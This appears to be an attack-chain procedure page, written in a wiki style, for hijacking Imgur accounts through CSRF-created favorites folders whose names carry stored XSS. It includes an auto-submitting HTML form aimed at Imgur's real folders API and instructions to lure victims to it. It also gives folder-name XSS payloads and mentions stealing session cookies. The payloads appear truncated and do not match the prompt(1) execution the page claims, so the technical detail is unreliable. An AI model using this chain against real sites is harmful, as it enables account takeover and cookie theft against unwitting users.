

# CSRF to Stored Self-XSS in Imgur Favorites Folders Leading to Account Hijacking

Multi-stage attack chain demonstrating a complete attack workflow exploiting CSRF and stored self-XSS in Imgur's favorites system to hijack user accounts.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/browser-based-exploitation]]

### Target Environment

- Web platform (Imgur website and API)
- Required services: Imgur API at https://api.imgur.com/3/folders
- Network access: Internet connectivity for authenticated Imgur sessions

### Initial Access Requirements

- Authenticated Imgur account for the victim
- Victim must visit a malicious page (phishing or social engineering)
- No special credentials beyond standard Imgur login

## Detailed Attack Procedures

### Step 1: CSRF Folder Creation
procedure: [[procedures/csrf-create-malicious-folder]]

**Objective**: Trick the victim into creating a favorites folder with an embedded XSS payload via CSRF, storing the malicious name without their knowledge.

**Instructions**: Host a malicious HTML page that auto-submits a form to Imgur's API. Use [[commands/csrf-html-form-submit]] to create the folder:

```html
<html>
<body onload='document.forms[0].submit()'>
 <form method='POST' enctype='application/json' action='https://api.imgur.com/3/folders'>
 <input name='name' value='New Test">'>
 <input name='is_private' value='false'>
 </form>
</body>
</html>
```

Lure the victim to this page while authenticated in Imgur. The form submits automatically, creating the folder.

**Expected Output**: API response confirming folder creation with the malicious name.

**Success Indicators**:
- Folder appears in victim's favorites with the injected name
- No user interaction required beyond page visit

### Step 2: Self-XSS Verification
procedure: [[procedures/verify-self-xss-in-folder]]

**Objective**: Confirm the stored XSS payload executes when interacting with the folder, such as adding an image.

**Instructions**: Manually test by creating a folder with [[commands/xss-payload-folder-name]]:

```html
1"'>
```

Navigate to Imgur favorites, create a new folder using the payload as the name, save it. Then, visit an image page, click the plus icon next to the heart, and add to the folder using [[commands/xss-payload-folder-name]] again.

**Expected Output**: Alert box with prompt(1) executes in the browser.

**Success Indicators**:
- JavaScript alert triggers on folder interaction
- Payload persists in folder name without sanitization

### Step 3: XSS Trigger via Image Addition
procedure: [[procedures/trigger-xss-via-image-addition]]

**Objective**: Execute the stored XSS in the victim's browser when they innocently add an image to the malicious folder, leading to code execution.

**Instructions**: After Step 1, wait for the victim to add any image to their favorites. When they select the malicious folder (created via CSRF), the XSS from the folder name executes automatically using the verified payload from [[commands/xss-payload-folder-name]]:

```html
1"'>
```

Monitor for execution, which could steal session cookies or perform further actions.

**Expected Output**: Arbitrary JavaScript runs in victim's context, e.g., prompt dialog or cookie exfiltration.

**Success Indicators**:
- XSS payload executes on image addition
- Potential for session hijacking confirmed by stolen tokens

## Attack Chain Summary

### Key Achievements

1. Remote folder creation via CSRF without victim awareness
2. Persistent storage of XSS in folder metadata
3. Execution of JavaScript leading to account compromise on normal user interaction

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
